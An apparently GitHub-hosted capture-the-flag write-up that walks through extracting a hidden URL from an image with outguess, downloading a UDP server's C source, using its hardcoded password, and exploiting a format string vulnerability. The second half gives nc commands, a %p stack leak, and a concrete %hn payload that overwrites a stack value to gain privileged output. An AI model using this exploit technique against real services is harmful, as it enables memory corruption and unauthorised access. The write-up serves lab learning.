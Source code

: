 ## Step 1: Steganography
First, we need to retrieve information from the "pict.jpg" using the outguess steganography function:
```bash
outguess -er kuraq_case/pict.jpg output1
```
Next, wget the obtained website to download the client and client_slave source code:
```bash 
wget -O output2 localhost:port  #(the port will be in output1)
```
here we need to find more information about the src code the output2 will contains a html page that cocontains information about the src code path 
```bash
cat output2 | grep backups-
```
You will find a port, for example, "backups-18184" in my case:

```bash
wget localhost:port/backups-18184 -> ca crée backups-18184
wget localhost:port/backups-18184/server.c 
wget localhost:port/backups-18184/server_slave.c
```

Alternatively, if the steps fail, the source code is provided in the directory.




after obtaining the source codes you need to copy and paste them in you local machine to compile them manually and see what you can do with them to hack the backland 

## Step 2: Compilation and Analysis
Firstly, create a folder "chroot" in the same directory as "server.c" and "server_slave.c" to fulfill one requirement.

For this challenge, it's recommended to download gdb peda as it's useful here.

Start by checking the port in the server.c where the server will listen. In my example, I found the port to be 38363.

Using the terminal (Ubuntu or WSL):
```bash
sudo gdb server 
r `pwd` 38363 
```
open another terminal and start to talk with the server xD 
example 
```bash
echo -ne Hello server |nc -u 127.0.0.1 38363
```
The source code mentions that the user needs to input a password. Fortunately, the password is revealed in the source code: "ZTI4ZmM1YjA0OTFhCg". Let's try in terminal 2:
```bash
echo -ne ZTI4ZmM1YjA0OTFhCg |nc -u 127.0.0.1 38363
```
Now we can write anything to the stack.

The "server_slave" code mentions that if "admin->val == 0xDEADBEEF", then the user will get privileged info. The purpose now is to change this value from its initial value of "0xCAFED00D" without affecting "admin->ttag" and "admin->btag," which need to remain as 0 to pass. This is a format string vulnerability.

Using this article, you can learn how to write anything wherever you want if you know the address: https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack

Using gdb, try to identify the location of "0xCAFED00D" and attempt to change this value to "0xDEADBEEF".

I crafted an input to change this value: \x44\xd3\xff\xff\x46\xd3\xff\xff%48871x%21$hn%9199x%22$hn
I changed the client.c to do that thanks to the article and I made a fake private file that contains a fake flag and it works 

## Step3: Deploying the Attack
Now we need to deploy this attack on the challenge instance.

First, find the address offset between the challenge machine and the real machine.

On the real machine, find a random address using the format string vulnerability:

In terminal one:
```bash
sudo ./server `pwd` 38363
```

In terminal two: 

```bash

echo -ne ZTI4ZmM1YjA0OTFhCg |nc -u 127.0.0.1 38363
echo -ne %p |nc -u 127.0.0.1 38363  #to see an address from the stack 
```

memorize the address 
e.g: 0xff9e5900
Now go to the challenge machine 

do the same thing 
```bash
echo -ne ZTI4ZmM1YjA0OTFhCg |nc -u 127.0.0.1 38363
echo -ne %p |nc -u 127.0.0.1 38363  #to see an address from the stack 
```

memorize the address 
e.g : 0xff9e599d

compute the offset: 
0xff9e599d-0xff9e5900= 9d 


add this offset to all addresses and update the client.c compite it and run it in the challenge machine and you will obtain your flag !!!!


